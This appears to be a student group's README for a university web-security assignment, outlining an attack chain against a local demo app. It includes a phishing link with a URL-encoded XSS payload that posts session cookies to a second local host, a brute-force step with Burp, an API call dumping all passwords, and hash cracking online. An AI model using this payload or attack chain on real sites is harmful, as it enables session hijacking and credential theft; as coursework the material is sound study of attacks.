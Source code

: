 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash
